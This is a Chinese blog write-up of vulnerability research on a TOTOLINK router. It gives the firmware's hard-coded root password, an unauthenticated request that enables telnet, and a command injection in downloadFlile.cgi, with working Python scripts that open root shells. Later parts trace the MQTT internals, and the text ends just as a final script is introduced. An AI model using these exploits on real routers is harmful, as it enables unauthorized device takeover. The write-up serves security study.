


拿到设备后，第一件事当然是跑起来看看。
本次挖洞练习的目标是TOTOLINK路由器，首先将路由器上电并通过LAN口跟电脑连接起来，然后输入192.168.0.1进入路由器配置界面，用户名和密码默认为admin/admin。
解决网络冲突 ：进到配置界面的第一件事就是更改路由器的局域网设置，将其网段改成非192.168.0.x（我将它改成了192.168.55.1）。这一步的目的是防止跟wifi的192.168.0.1冲突，我们可以通过192.168.55.1进入TOTOLINK的配置网页界面。
设置上网路由 ：电脑同时连上了WIFI（通过无线网卡）和TOTOLINK（通过网线），当我们访问网络时，会走哪条线路呢？答案是根据route print打印出的活动路由跃点数（优先级）可以看出，数值越小的，优先级越高，就会选择该通路访问互联网。windows 10中设置跃点数的方式如下：高级网络设置->更改适配器选项->选择某一网卡->属性->Inernet协议版本4->高级->去掉“自动跃点”的勾选->设置接口跃点数为一个较小的值，如5。
寻找危险功能 ：在TOTOLINK的设置页面上，随意点击探索是否有危险功能可以开启后门等。
使用nmap -p 1-65535 192.168.55.1对路由器进行全端口扫描，查看是否开启ssh（22），telnet（23），mqtt（1883）等端口。
在totolink官网 V5.9c.1485_B20180122这个版本。
使用binwalk -Me xxx对固件进行解包，解出的内容中，在squashfs-root/这个目录下是路由器中文件系统的全部内容，根据这个目录下的文件可以进行逆向分析与漏洞挖掘。
寻找硬编码 ：考虑到后续get shell需要用户名/密码登录系统，先静态在文件系统中寻找是否存在硬编码的情况，对/etc/passwd和/etc/shadow等文件进行分析。了解以上两个文件，参考如下两篇文章：/etc/shadow file in Linux Explained with Examples Linux /etc/shadow（影子文件）内容解析（超详细）
本次TOTOLINK设备中，在/etc/shadow.sample中找到了root的密码。尝试在cmd5网站 cs2012。
1 2 3 $ cat shadow.sample root:$1$BJXeRIOB$w1dFteNXpGDcSSWBMGsl2/:16090:0:99999:7::: nobody:*:14495:0:99999:7:::
疑问：为什么从/etc/shadow.sample中得到的是/etc/shadow的密码？
全局搜索字符串”shadow.sample”，以下两个文件中存在对这个文件的操作，将该文件复制到/var/shadow了。
1 2 3 squashfs-root$ grep -rin shadow.sample etc/init.d/rcS:79:cp /etc/shadow.sample /var/shadow etc/init.d/rcS_GW:79:cp /etc/shadow.sample /var/shadow
另，在binwalk解压的etc目录下查看，发现/etc/passwd软连接到了/var/passwd，那么/etc/passwd的值就是/etc/shadow.sample的值。
1 2 3 squashfs-root/etc$ ls -al lrwxrwxrwx 1 bling bling 11 1月 22 2018 passwd -> /var/passwd lrwxrwxrwx 1 bling bling 11 1月 22 2018 shadow -> /var/shadow
分析固件中web_cste目录下的文件，这些文件就是路由器web服务器中的内容。其中home.asp就是我们访问192.168.55.1时的主页面。这些文件中，telnet.asp首先映入眼帘，这个难道是跟telnet相关的？会不会可以打开telnet功能呢？我们尝试访问一下。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 ~/squashfs-root/web_cste$ ls -al total 152 drwxrwxr-x 10 bling bling 4096 1月 22 2018 . drwxrwxr-x 14 bling bling 4096 1月 22 2018 .. drwxrwxr-x 3 bling bling 4096 1月 22 2018 adm -rwxr-xr-x 1 bling bling 627 1月 22 2018 bottom.asp drwxrwxr-x 3 bling bling 4096 8月 7 19:04 cgi-bin lrwxrwxrwx 1 bling bling 15 1月 22 2018 config.dat -> /var/config.dat -rwxr-xr-x 1 bling bling 59 1月 22 2018 empty1.htm -rwxr-xr-x 1 bling bling 41 1月 22 2018 empty2.htm -rwxr-xr-x 1 bling bling 59 1月 22 2018 empty3.htm -rwxr-xr-x 1 bling bling 1150 1月 22 2018 favicon.ico drwxrwxr-x 3 bling bling 4096 1月 22 2018 firewall lrwxrwxrwx 1 bling bling 10 1月 22 2018 fwdir -> /tmp/fwdir lrwxrwxrwx 1 bling bling 20 1月 22 2018 fw_ln -> /var/cloudupdate.web -rwxr-xr-x 1 bling bling 162 1月 22 2018 goLogin.htm -rwxr-xr-x 1 bling bling 2508 1月 22 2018 home.asp -rwxr-xr-x 1 bling bling 636 1月 22 2018 index.htm drwxrwxr-x 3 bling bling 4096 1月 22 2018 internet drwxrwxr-x 3 bling bling 4096 1月 22 2018 js -rwxr-xr-x 1 bling bling 6686 1月 22 2018 left.asp -rwxr-xr-x 1 bling bling 7708 1月 22 2018 login.asp drwxrwxr-x 7 bling bling 4096 1月 22 2018 mobile drwxrwxr-x 3 bling bling 4096 1月 22 2018 style -rwxr-xr-x 1 bling bling 1616 1月 22 2018 telnet.asp -rwxr-xr-x 1 bling bling 3475 1月 22 2018 test.asp -rwxr-xr-x 1 bling bling 3798 1月 22 2018 title.asp -rwxr-xr-x 1 bling bling 1039 1月 22 2018 top.asp drwxrwxr-x 3 bling bling 4096 1月 22 2018 wireless -rwxr-xr-x 1 bling bling 36999 1月 22 2018 wizard.asp -rwxr-xr-x 1 bling bling 6551 1月 22 2018 wizard_connect_state.asp
在浏览器中输入http://192.168.55.1/telnet.asp：
提示让我们登录 - 那就用admin/admin登录
登录后重定向到了设置页面 - 那尝试再次在浏览器中输入http://192.168.55.1/telnet.asp访问
此时进入telnet开关界面 - 说明我们可以通过浏览器远程开启或关闭路由器的telnet功能
前台可控or后台可控？ - 使用burpsuite抓包重放，验证”登录后才能访问telnet功能”的校验是在前端还是后端。
以下是抓到的“设置telnet为开”的http post包，可以看到有个Cookie字段。尝试将该Cookie删除后，重发http包控制telnet开关，发现依然能够控制成功。说明路由器的web服务器端并未对登录与否做校验。因此，说明这是一个前台可控的telnet开关功能 ！
1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST /cgi-bin/cstecgi.cgi HTTP/1.1 Host: 192.168.55.1 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0 Accept: */* Accept-Language: en-GB,en;q=0.5 Accept-Encoding: gzip, deflate Referer: http://192.168.55.1/telnet.asp Content-Type: application/x-www-form-urlencoded; charset=UTF-8 X-Requested-With: XMLHttpRequest Content-Length: 56 Cookie: SESSION_ID=2:1516628334:2 Connection: close {"topicurl":"setting/setTelnetCfg","telnet_enabled":"1"}
利用上述telnet.asp的功能打开telnet，再根据固件中分析到的硬编码root密码，便可拿到路由器的shell了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 $ telnet 192.168.55.1 Trying 192.168.55.1... Connected to 192.168.55.1. Escape character is '^]'. carystdio login: root Password: RLX Linux version 2.0 _ _ _ | | | ||_| _ _ | | _ _ | | _ ____ _ _ _ _ | |/ || |\ \/ / | || | _ \| | | |\ \/ / | |_/ | |/ \ | || | | | | |_| |/ \ |_| |_|\_/\_/ |_||_|_| |_|\____|\_/\_/ For further information check: http://processor.realtek.com/ # ls bin etc init lighttp proc sys usr web_cste dev home lib mnt root tmp var
为了封装以上”打开telnet”+”telnet连接获取shell”过程，通过一个脚本获得TOTOLINK路由器的shell，于是有了如下脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 from pwn import *io = remote("192.168.55.1" ,80 ) msg2 = 'POST /cgi-bin/cstecgi.cgi HTTP/1.1\r\n' msg2 += 'Host: 192.168.55.1\r\n' msg2 += 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0\r\n' msg2 += 'Accept: */*\r\n' msg2 += 'Accept-Language: en-GB,en;q=0.5\r\n' msg2 += 'Accept-Encoding: gzip, deflate\r\n' msg2 += 'Referer: http://192.168.55.1/telnet.asp\r\n' msg2 += 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8\r\n' msg2 += 'X-Requested-With: XMLHttpRequest\r\n' msg2 += 'Content-Length: 56\r\n' msg2 += 'Connection: close\r\n\r\n' msg2 += '{"topicurl":"setting/setTelnetCfg","telnet_enabled":"1"}' io.send(msg2) io.close() sleep(1 ) aa = process(["/usr/bin/telnet" ,"192.168.55.1" ]) aa.recvuntil("login" ) aa.sendline("root" ) aa.recvuntil("Password" ) aa.sendline("cs2012" ) aa.sendline("ls" ) aa.interactive()
用request post的方法：
1 2 3 4 5 6 7 8 9 10 11 12 from pwn import *import requestsresponse = requests.post("http://192.168.55.1/cgi-bin/cstecgi.cgi" ,data='{"topicurl":"setting/setTelnetCfg","telnet_enabled":"1"}' ) aa = process(["/usr/bin/telnet" ,"192.168.55.1" ]) aa.recvuntil("login" ) aa.sendline("root" ) aa.recvuntil("Password" ) aa.sendline("cs2012" ) aa.sendline("ls" ) aa.interactive()
上一步中，burpsuit抓包重放“telnet开关”对应调用的url是/cgi-bin/cstecgi.cgi，所以我首先考虑的是检视一遍/cgi-bin/目录下的其他文件，是否存在漏洞。
查看固件中的文件目录，有如下文件，依次检视每个文件。
1 2 3 4 5 6 7 8 9 10 11 12 ~/squashfs-root/web_cste/cgi-bin$ ls -al total 92 drwxrwxr-x 3 bling bling 4096 8月 7 19:04 . drwxrwxr-x 10 bling bling 4096 1月 22 2018 .. -rwxr-xr-x 1 bling bling 8007 1月 22 2018 cstecgi.cgi -rwxr-xr-x 1 bling bling 9015 1月 22 2018 downloadFlile.cgi -rwxr-xr-x 1 bling bling 402 1月 22 2018 ExportSettings.sh -rwxr-xr-x 1 bling bling 383 1月 22 2018 ExportSyslog.sh drwxrwxr-x 6 bling bling 4096 1月 22 2018 .svn -rwxr-xr-x 1 bling bling 13671 1月 22 2018 upload_bootloader.cgi -rwxr-xr-x 1 bling bling 16855 1月 22 2018 upload.cgi -rwxr-xr-x 1 bling bling 12503 1月 22 2018 upload_settings.cgi
IDA逆向查看这些cgi文件，发现大量system函数的调用。想到是否会存在命令注入漏洞，因此查看了所有的system调用点，确认参数是否外部可控。最终在downloadFlile.cgi的main函数中找到如下漏洞：
这个漏洞基本就是个webshell
1 2 3 4 5 v14 = (const char *)getenv("QUERY_STRING" ); memset (v24, 0 , sizeof (v24)); memset (v25, 0 , sizeof (v25)); sprintf (v24, "echo QUERY_STRING:%s >/tmp/download" , v14); system(v24);
用一个简单的url就能触发以上漏洞：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 http://192.168.55.1/cgi-bin/downloadFlile.cgi?a=b;ls${IFS} -al; QUERY_STRING:a=b drwxr-xr-x 3 root root 0 Jan 1 1970 . drwxr-xr-x 10 root root 0 Jan 1 1970 .. drwxr-xr-x 6 root root 0 Jan 1 1970 .svn -rwxr-xr-x 1 root root 402 Jan 1 1970 ExportSettings.sh -rwxr-xr-x 1 root root 383 Jan 1 1970 ExportSyslog.sh -rwxr-xr-x 1 root root 8007 Jan 1 1970 cstecgi.cgi -rwxr-xr-x 1 root root 9015 Jan 1 1970 downloadFlile.cgi -rwxr-xr-x 1 root root 16855 Jan 1 1970 upload.cgi -rwxr-xr-x 1 root root 13671 Jan 1 1970 upload_bootloader.cgi -rwxr-xr-x 1 root root 12503 Jan 1 1970 upload_settings.cgi
burpsuite中抓包如下，通过改变url中两个;之间的命令（也可用其他有效分隔符），可以实现命令注入，并将命令执行结果返回（lighthttpd的特性，把cgi运行的结果用于返回）。
1 2 3 4 5 6 7 8 9 GET /cgi-bin/downloadFlile.cgi?a=b;ls${IFS}-al; HTTP/1.1 Host: 192.168.55.1 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-GB,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0
利用python脚本，将以上过程封装成shell形式
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 from pwn import *msg1 = "GET /cgi-bin/downloadFlile.cgi?" msg2 = " HTTP/1.1\r\n" msg2 += "Host: 192.168.55.1\r\n" msg2 += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0\r\n" msg2 += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n" msg2 += "Accept-Language: en-GB,en;q=0.5\r\n" msg2 += "Accept-Encoding: gzip, deflate\r\n" msg2 += "Connection: close\r\n" msg2 += "Upgrade-Insecure-Requests: 1\r\n" msg2 += "Cache-Control: max-age=0\r\n" msg2 += "\r\n" print "Hello, welcome to magic TOTOLINK shell!" print "You can use it like a linux shell" print "Enjoy it yourself now~" while (1 ): try : print "$ " , a = raw_input() b = "" for i in a: if i == ' ' : b += "${IFS}" elif (i == '\n' ): break else : b += i in_cmd = "aabbcc;" +b+";" msg_send = msg1 + in_cmd + msg2 io = remote("192.168.55.1" ,80 ) io.send(msg_send) test_msg = io.recvuntil("aabbcc\n" ) recv_msg = io.recv() print recv_msg io.close() except : pass
最终的脚本如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 import requestsmsg1 = 'aabb;' msg2 = ';' while (1 ): print '$' , a = raw_input() b = '' for i in a: if i == ' ' : b += "$IFS$1" elif (i == '\n' ): break else : b += i msg3 = msg1 + b + msg2 response = requests.get("http://192.168.55.1/cgi-bin/downloadFlile.cgi" ,params=msg3) print response.text.replace("QUERY_STRING:aabb" ,'' )
这个过程中，遇到了以下问题：
1、如何用python中request模块来发包？
参考python——Request模块
2、使用response = requests.get("http://192.168.55.1/cgi-bin/downloadFlile.cgi?aabb;ls${IFS}-al;")无法成功得到返回值？
第一步，定位问题。
request.get()发包会自动将’{ }’进行编码，使用wireshark抓包查看如下。
1 2 GET /cgi-bin/downloadFlile.cgi?aabb;ls$%7BIFS%7D-al; HTTP/1.1 Host: 192.168.55.1
而服务端漏洞触发点还未到解码的位置，导致system(ls$%7BIFS%7D-al)无法被当做bash命令执行。
第二步，寻找解决方案。
a）尝试关闭requests.get()发包自动编码的功能，google查询一通后，发现除了改requests源码无其他办法。故放弃。
b）尝试搜索”IFS 命令注入”，寻找是否有其他的方法达到${IFS}同样的效果。果然！在命令注入绕过方式总结
1 2 3 4 # cat$ {IFS}flag.txt cat$ IFS$1flag .txt cat$ {IFS}$1flag .txt
shell中$0,$1,$?等都是特殊变量，在shell中echo $0 $1 $2 'a'，可观察到$1和$2为空，$0为bash，其实是因为起bash时其参数为空。详细参考shell编程学习笔记之特殊变量
3、python字符串的操作不熟悉
1 2 3 > >> dir('aaa' ) ['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill'] > >> help ('' .replace)
！！！彩蛋！！！
精简版的exp
1 2 3 4 5 6 7 import requestswhile (1 ): print '$' , a = 'aabb;' + raw_input().replace(' ' ,'$IFS$1' ) + ';' response = requests.get("http://192.168.55.1/cgi-bin/downloadFlile.cgi" ,params=a) print response.text.replace("QUERY_STRING:aabb" ,'' )
虽然上一步骤中实现了任意开关telnet，但作为一个案例，还是想一探究竟固件中真正去做开关动作的函数在哪儿。于是有了这一小节的内容。
首先，分析我们抓到的设置telnet的http包：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST /cgi-bin/cstecgi.cgi HTTP/1.1 Host: 192.168.55.1 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0 Accept: */* Accept-Language: en-GB,en;q=0.5 Accept-Encoding: gzip, deflate Referer: http://192.168.55.1/telnet.asp Content-Type: application/x-www-form-urlencoded; charset=UTF-8 X-Requested-With: XMLHttpRequest Content-Length: 56 Cookie: SESSION_ID=2:1516628334:2 Connection: close {"topicurl":"setting/setTelnetCfg","telnet_enabled":"1"}
1、在cstecgi.cgi中寻找setTelnetCfg和telnet_enable
IDA中对cstecgi.cgi文件搜索了一番，并未找到任何线索。
2、尝试全局搜索
全局搜索字符串”telnet_enable”和”setTelnetCfg”
1 2 3 4 5 6 7 8 9 squashfs-root$ grep -rin telnet_enabled web_cste/telnet.asp:16: supplyValue("telnet_enabled",rJson['telnet_enabled']); web_cste/telnet.asp:23: postVar['telnet_enabled']=$('#telnet_enabled').val(); web_cste/telnet.asp:38:<td><select class="select" id="telnet_enabled"> Binary file lib/cste_modules/system.so matches Binary file lib/libapmib.so matches squashfs-root$ grep -rin setTelnetCfg web_cste/telnet.asp:22: var postVar={"topicurl" : "setting/setTelnetCfg"}; Binary file lib/cste_modules/system.so matches
telnet.asp是前端用来构造http包的，因此无需关注。重点在lib/下的两个.so文件。逐个分析：
1）lib/libapmib.so
在IDA中对libapmib.so进行分析，找到了”telnet_enable”字符串，然而并未找到引用位置。暂定该so文件不是分析的目标。
2）lib/cste_modules/system.so
在system.so中找到两处对字符串”telnet_enable”的引用，一处是getTelnetCfg()，另一处是setTelnetCfg()。通过名字就能看出后一个设置telnet是我们要的函数！其源码逻辑如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 int __fastcall setTelnetCfg (int a1, int a2, int a3) const char *v5; int v7[3 ]; v5 = (const char *)websGetVar(a2, "telnet_enabled" , "0" ); v7[0 ] = atoi(v5); apmib_set(0x4683 , v7); if ( v7[0 ] == 1 ) { system("killall telnetd 2> /dev/null" ); system("telnetd &" ); } else { system("killall telnetd 2> /dev/null" ); } apmib_update_web(4 ); return websSetCfgResponse(a1, a3, "0" , "reserv" ); }
继续跟踪是谁调用了这个函数，跟踪到了system.so中的module_init()函数。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 int module_init () cste_hook_register("getPasswordCfg" , getPasswordCfg); cste_hook_register("setPasswordCfg" , setPasswordCfg); cste_hook_register("NTPSyncWithHost" , NTPSyncWithHost); cste_hook_register("getNTPCfg" , &getNTPCfg); cste_hook_register("setNTPCfg" , setNTPCfg); cste_hook_register("getDDNSStatus" , getDDNSStatus); cste_hook_register("getDDNSCfg" , &getDDNSCfg); cste_hook_register("setDDNSCfg" , setDDNSCfg); cste_hook_register("getSyslogCfg" , &getSyslogCfg); cste_hook_register("clearSyslog" , clearSyslog); cste_hook_register("setSyslogCfg" , setSyslogCfg); cste_hook_register("getMiniUPnPConfig" , &getMiniUPnPConfig); cste_hook_register("setMiniUPnPConfig" , setMiniUPnPConfig); cste_hook_register("LoadDefSettings" , LoadDefSettings); cste_hook_register("RebootSystem" , RebootSystem); cste_hook_register("FirmwareUpgrade" , FirmwareUpgrade); cste_hook_register("getRebootScheCfg" , getRebootScheCfg); cste_hook_register("setRebootScheCfg" , setRebootScheCfg); cste_hook_register("getTelnetCfg" , getTelnetCfg); cste_hook_register("setTelnetCfg" , setTelnetCfg); cste_hook_register("SystemSettings" , SystemSettings); return 0 ; }
3、整理思路
现在已知服务器端（路由器）处理设置telnet http包的入口是cstecgi.cgi，最终执行设置telnet的动作是在system.so中，且字符串setTelnetCfg仅能在这两个文件中搜索到。
在分析完cstecgi.cgi源码后，并未找到对system.so的调用。到这里，发现两者的联系断了！但是它们又不可能是断的，说明有一个中间件，可以将他们二者联系起来。那么有了以下分析过程：
1）这个中间件肯定会调用system.so，那么二进制中一定有这个字符串。于是尝试全局搜索字符串’system.so’，But，结果为空，啥也没搜到。怎么回事呢？
2）据说还有一种加载so文件的方式，那就是通过dlopen(const char *filename, int flags)。不过，dlopen打开so文件是需要制定路径+so文件名的，而我们刚刚搜索so文件名的结果为空，说明源码中可能对路径和文件名进行了拼接。尝试找一下路径字符串。
4、寻找对so文件所在路径的引用
对于lib/cste_modules/system.so，我们尝试搜索路径字符串”lib/cste_modules”，结果如下：
1 2 3 4 5 6 7 8 9 10 11 squashfs-root$ grep -rin dlopen Binary file lib/libpthread-0.9.33.so matches Binary file lib/libcrypto.so.0.9.8 matches Binary file lib/libdl-0.9.33.so matches Binary file lib/librt-0.9.33.so matches Binary file bin/cs_broker matches Binary file bin/cste_sub matches #满足dlopen Binary file bin/lighttpd matches Binary file bin/tc matches squashfs-root$ grep -rin lib/cste_modules Binary file bin/cste_sub matches #满足lib/cste_modules路径
根据搜索结果，锁定到bin/cste_sub这个二进制文件。IDA打开该文件，在函数窗口搜索dlopen，定位到唯一一处对该函数的引用：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 int load_modules () ... v0 = opendir(&dword_4037B0); ... while ( 1 ) { v7 = readdir(v0); v8 = v7; if ( !v7 ) break ; v3 = v7 + 11 ; ... if ( (v5 & 0xF000 ) != 0x4000 ) { sprintf (v9, v13, &dword_4037B0, v3); flib = dlopen(v9, 1 ); error_message = dlerror(); ... }
因此，调用system.so的程序为bin/目录下的cste_sub，这个cste_sub是做什么的呢？我们利用路由器shell一探究竟。
5、cste_sub是什么
这里我利用python -m SimpleHTTPServer及wget上传了一个完整版的busybox-mipsel到路由器上，通过netstat查看端口连接情况：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 # ./busybox-mipsel netstat -pantu Active Internet connections (servers and established) Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN 1363/lighttpd tcp 0 0 0.0.0.0:53 0.0.0.0:* LISTEN 1279/dnsmasq tcp 0 0 0.0.0.0:23 0.0.0.0:* LISTEN 1343/telnetd tcp 0 0 0.0.0.0:1883 0.0.0.0:* LISTEN 1324/cs_broker tcp 0 162 192.168.55.1:23 192.168.55.2:49510 ESTABLISHED 1343/telnetd tcp 0 0 127.0.0.1:48295 127.0.0.1:1883 TIME_WAIT - tcp 0 0 127.0.0.1:47306 127.0.0.1:1883 ESTABLISHED 9913/cste_sub tcp 0 0 127.0.0.1:1883 127.0.0.1:47306 ESTABLISHED 1324/cs_broker netstat: /proc/net/tcp6: No such file or directory udp 0 0 0.0.0.0:53 0.0.0.0:* 1279/dnsmasq udp 0 0 0.0.0.0:67 0.0.0.0:* 1028/udhcpd netstat: /proc/net/udp6: No such file or directory
可以看到cste_sub作为客户端，跟1883端口建立了连接，1883端口对应的程序名是cs_broker。而1883端口对应mqtt服务，因此cs_broker就是mqtt服务。
6、再次整理思路
现在已知的几个模块有：
cstecgi.cgi：是lighttpd起的子进程，处理来自客户端发送的设置telnet的http包cste_sub：该进程中加载了system.so，并实际执行了设置telnet开关的操作cs_broker：mqtt服务，跟cste_sub之间有交互
所以从cstecgi.cgi中有两条路可能触发到system.so：
1）cstecgi.cgi –》 cste_sub
2）cstecgi.cgi –》 cs_broker –》 cste_sub
为了弄清楚在cstecgi.cgi中究竟是怎样调用的，我们再次回到IDA中分析：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 int __cdecl main (int argc, const char **argv, const char **envp) ... if ( strstr (v30, "postapIpAddr" ) ) { v5 = cJSON_GetObjectItem(v18, "postapIpAddr" ); set_CSTEInfo(*(_DWORD *)(v5 + 16 ), 1883 , 60 ); v6 = cJSON_GetObjectItem(v18, "aptopicurl" ); web_getData(0 , *(_DWORD *)(v6 + 16 ), v30, (int )v35); } else { set_CSTEInfo("127.0.0.1" , 1883 , 60 ); web_getData(0 , v23, v30, (int )v35); } ... }
发现了对1883端口的调用，以及两个函数set_CSTEInfo()和web_getData()。因此符合上述2）的情况，可以大致推测出，cstecgi.cgi通过这两个函数实现跟cste_broker进行通信，而后cste_broker将数据传递给cste_sub进行处理。
7、libmosquitto
经全局搜索，set_CSTEInfo()与web_getData()的函数实现在lib/libmosquitto.so中。libmosquitto原本是一个开源的组件，这里TOTOLINK厂商对其进行二次开发做了些更改。可以知道的是，这两个函数实现了之间的通信。cstecgu.cgi到底发送了什么，我们通过网络抓包分析是更为直接和准确的办法！
这一部分内容，参考MQTT相关章节。
关于什么是MQTT，老徐的文章里写的很清楚：物联网设备消息总线机制的使用及安全问题
这里记录一下我在TOTOLINK上抓包分析MQTT报文的过程。
由于路由器上没有tcpdump，所以考虑编译一个静态链接的tcpdump，用于抓路由器上的通信报文。
因为第一次编tcpdump，所以先在本地编一个x86架构的版本试试。
官网下载tcpdump和libpcap
编译libpcap
1 2 3 ./configure make make install
编译tcpdump
1 2 ./configure make --without-crypto CFLAGS=-static
下载tcpdump和libpacap源码
ubuntu中安装mipsel gcc
1 sudo apt install gcc-mipsel-linux-gnu
编译libpcap
1 2 3 ./configure --prefix=/home/bling/mipsel_libpcap #该目录可根据情况更改 make CC=mipsel-linux-gnu-gcc make install CC=mipsel-linux-gnu-gcc #编译的libpcap安装到了/home/bling/mipsel_libpcap目录下
编译tcpdump
1 2 3 cd tcpdump-4.99.1/ ./configure make CC=mipsel-linux-gnu-gcc CFLAGS='-I/home/bling/mipsel_libpcap/include' LDFLAGS='-L/home/bling/mipsel_libpcap/lib/libpcap.a'
1 2 3 cd tcpdump-4.99.1/ ./configure make CC=mipsel-linux-gnu-gcc CFLAGS='-I/home/bling/mipsel_libpcap/include -static' LDFLAGS='-L/home/bling/mipsel_libpcap/lib/libpcap.a -static'
使用tcpdump抓报文
1 ./tcpdump -i lo -w ./test.pcap
封闭服务器数据回传
路由器相当于一个封闭服务器，为了将路由器中tcpdump的包传给我们本地分析，有以下几种方法：
wget post
tftpd
metepreter植入后门下载（最方便）
base64编码
meterpreter植入后门下载（尝试失败）
base64编码
1 2 3 cat /tmp/test.pcap | /tmp/busybox-mipsel base64 # 编码过程 # 将base64编码的内容保存到本地文件pcap64 cat pcap64 | base64 -d > test.pcap # 解码过程
另两种方法暂未尝试。
pcap报文分析
wireshark中打开刚刚使用tcpdump捕获的pcap报文，就可以分析mqtt相关的条目了。这里附上得到的pcap文件：test.pcap
其实wireshark已经根据mqtt协议都帮我们分析好了，我们可以跟踪各tcp流看看收发情况，理解一下cs_broker和cste_sub之间，以及cs_broker和cstecgi.cgi之间的数据交互过程。
mqtt协议可参考：MQTT协议中文版
mqtt.fx的subscribe与publish
下载链接：mqtt.fx下载
通过subscribe # 可以监听所有的topic。
用mqtt.fx抓一个“打开telnet开关”的包，然后通过publish界面重放。如下图所示：

这一操作过程，在本地用wireshark抓了一个包，set_telnet_1.pcapng 。
分析过程如下，根据此分析，可以使用pwntools构造mqtt报文来实现路由器telnet的开关。

根据上文中wireshark的分析，利用pwntools我们只需构造一次connect+一次setTelnetCfg就行（remote()函数本身就是建立TCP连接，因此这个层面的东西我们无需考虑）。非常简单，脚本如下：
